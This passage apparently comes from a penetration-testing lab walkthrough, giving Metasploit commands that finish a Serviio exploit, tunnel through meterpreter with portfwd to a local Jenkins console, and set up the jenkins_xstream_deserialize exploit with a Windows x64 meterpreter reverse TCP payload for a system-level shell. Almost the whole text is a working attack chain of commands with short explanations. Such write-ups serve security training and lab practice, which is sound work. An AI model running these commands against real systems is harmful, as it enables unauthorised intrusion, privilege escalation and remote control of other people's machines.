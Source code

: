 ```
set LPORT 50000
```

The callback will be handled by a separate payloadhandler, so disable it in this msfconsole.
```
set DisablePayloadHandler True
```

Double check everything.
```
show options
```

```
check
```

```
exploit
```

#### 6.3 Windows System-level Shell Option 1 - Reverse shell payload

Use msfconsole’s portfwd command in the serviio exploit shell to access the jenkins console listening on 127.0.0.1:8888.

Add a -L equivalent using meterpreter.
```
portfwd add -L 127.0.0.1 -l 8888 -r 127.0.0.1 -p 8888
```

Background the current session, we will be using the same payload and payload handler to catch the next callback.
```
background
```

Specify the exploit to use.
```
use multi/http/ jenkins_xstream_deserialize
```

Leverage the portfwd -L forward tunnel through meterpreter payload.
```
set RHOSTS 127.0.0.1
```

```
set RPORT 8888
```

Specify the target type to be a Windows dropper.
```
set TARGET 5
```

Specify payload.
```
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

